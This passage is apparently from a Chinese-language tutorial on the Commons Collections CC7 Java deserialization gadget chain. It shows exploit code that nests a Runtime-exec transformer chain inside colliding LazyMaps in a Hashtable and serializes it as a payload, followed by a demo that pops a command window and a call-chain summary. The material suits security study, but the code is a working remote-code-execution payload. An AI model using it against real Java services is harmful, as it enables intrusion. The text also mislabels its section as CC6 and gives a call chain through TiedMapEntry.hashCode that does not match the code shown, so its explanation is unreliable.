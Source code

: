 ```java
                        new Class[] { String.class }, new Object[]{execArgs})};
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        //TODO===========================CC7新的触发点 START=============================
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        // Use the colliding Maps as keys in Hashtable
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Field iTransformers = transformerChain.getClass().getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);

        // Needed to ensure hash collision after previous manipulations
        lazyMap2.remove("yy");

        //TODO===============================CC6新的触发点 END=========================
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(hashtable);
        oos.flush();
        oos.close();
    }
}
```

## 调试

弹个cmd窗口

![image-20241119220600408](./main.assets/image-20241119220600408.png)

## 调用链总结(简化版 - cc7bySimplify)

* ObjectInputStream.readObject()
  * HashTable.readObject()
  * HashTable.reconstitutionPut()
    * TiedMapEntry.hashCode()
    * TiedMapEntry.getValue()
      * LazyMap.get()
        * ChainedTransformer.transform()
          * ConstantTransformer.transform()
          * InvokerTransformer.transform()
            * Method.invoke()
            * Class.getMethod()
          * InvokerTransformer.transform()
            * Method.invoke()
            * Runtime.getRuntime()
          * InvokerTransformer.transform()
            * Method.invoke()
